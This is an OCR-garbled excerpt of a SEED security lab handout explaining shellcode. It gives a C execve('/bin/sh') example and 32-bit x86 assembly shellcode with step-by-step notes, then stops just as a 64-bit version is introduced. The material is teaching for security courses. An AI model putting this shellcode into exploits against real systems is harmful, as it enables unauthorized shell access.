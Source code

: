 The C Version of Shellcode

A shellcode is basically a piece of code that launches a
shell. If we use C code to implement it, it will look like the following:

#include <stdio.h>

int main() { char
*name[2];

|  name[0] ="/bin/sh"; name[1]

| = NULL; execve(name[0], name, NULL); } |
| -------------------------------------- |

Unfortunately, we cannot just compile
this code and use the binary code as our shellcode (detailed explanation is
provided in the SEED book). The best way to write a shellcode is to use
assembly code. In this lab, we only provide the binary version of a shellcode,
without explaining how it works (it is non-trivial). If you are interested in
how exactly shellcode works and you want to write a shellcode from scratch, you
can learn that from a separate SEED lab called  *Shellcode Lab* .

32-bit Shellcode

|  ; Store the
  command on stackxor eax,eax push eax push"//sh"push"/bin"mov ebx,esp; ebx -->

| "/bin//sh": execve()’s 1st argument ; Construct the argument array argv[] push eax ; argv[1] = 0 push ebx ; argv[0] --> "/bin//sh"mov ecx,esp ; ecx --> argv[]: execve()’s 2nd argument ; For environment variablexor edx,edx ; edx = 0: execve()’s 3rd argument ; Invoke execve() xor eax,eax ; mov al, 0x0b; execve()’s system call numberint0x80 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

The shellcode above basically invokes
the execve() system call to execute /bin/sh. In a separate SEED lab, the
Shellcode lab, we guide students to write shellcode from scratch. Here we only
give a very brief explanation.

•
The third instruction pushes "//sh", rather
than "/sh" into the stack. This is because we need a 32-bit number
here, and "/sh" has only 24 bits. Fortunately, "//" is
equivalent to "/", so we can get away with a double slash symbol.

•
We need to pass three arguments to execve() via the ebx,
ecx and edx registers, respectively. The majority of the shellcode basically
constructs the content for these three arguments.

•
The system call execve() is called when we set al to 0x0b,
and execute "int 0x80".


64-Bit Shellcode

We provide a sample 64-bit shellcode in the following. It
is quite similar to the 32-bit shellcode, except that the names of the
registers are different and the registers used by the execve() system call are
also different. Some explanation of the code is given in the comment section, and
we will not provide detailed explanation on the shellcode.
